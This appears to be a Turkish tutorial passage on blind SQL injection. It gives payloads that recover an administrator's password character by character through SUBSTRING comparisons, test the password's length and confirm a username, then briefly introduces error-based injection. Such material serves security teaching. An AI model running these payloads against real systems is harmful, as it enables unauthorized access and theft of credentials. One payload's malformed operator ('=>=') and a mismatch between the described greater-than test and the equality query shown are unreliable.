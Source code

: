 Diyelim `Users` tablosunda `Administrator` adlı bir kullanıcı var. Parolasının ilk karakterini şöyle test edebilirsiniz:

1. Karakterin `'m'`’den büyük olup olmadığını sorun:
```sql
 AND SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'),1,1) =>= 'm
 -- Sorgunun farklı hali :
 ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator') = 'a
```

– Eğer “Welcome back” geliyorsa, karakter `'m'`’den büyüktür.

2. Benzer şekilde üst sınırı daraltarak doğru karakteri bulana dek devam edin:

```sql
 AND SUBSTRING(...,1,1) = 's
```

– “Welcome back” mesajı geldiyse, ilk karakter `'s'`’tir.
Bu şekilde her konumu tek tek test ederek parolanın tamamını elde edebilirsiniz.


1. **Neden `SUBSTRING` Kullanılır?**

```sql
AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) = 't
```
- `SUBSTRING( metin, başlangıç, uzunluk )`  
    → `metin` içinden **başlangıç** pozisyonundan itibaren **uzunluk** kadar karakter döndürür.
- Örnekte: şifrenin 1. karakterini (uzunluğu 1) alıyoruz.
- “İlk harfi almak” istediğimiz için kullanıldı.

2. Parolanın uzunluğunu test etmek için :
```sql
AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>10)='a
```
→ Eğer `administrator` kullanıcısının şifresi 10 karakterden uzunsa, sorgu `'a'='a'` olur ve **true** döner.

3. Kullanıcı adı doğrulamak için : 
```sql
 AND (SELECT 'a' FROM users WHERE username='administrator')='a
```



## Error-Based SQL Injection

**Hata Tabanlı SQL Injection**, uygulamanın döndürdüğü **hata mesajları** üzerinden veri sızdırma veya çıkarma teknikleridir. İki temel senaryo vardır:

1. **Koşullu Hata Mesajları**
    
    - Boolean tabanlı saldırılar gibi, belli bir ifade doğruysa farklı bir hata üretilir.
    - Uygulamanın bu hata tepkisini gözleyerek veritabanı hakkında bilgi toplanır.
    
2. **Ayrıntılı Hata Çıktısı**
    
    - Veritabanı yapılandırmasına bağlı olarak, sorgunun sonucunu veya kolon değerlerini içeren hata mesajları görülebilir.
    - Böylece normalde “blind” (görünmez) olan zafiyetler, hata çıktısıyla **görünür** hâle gelir.
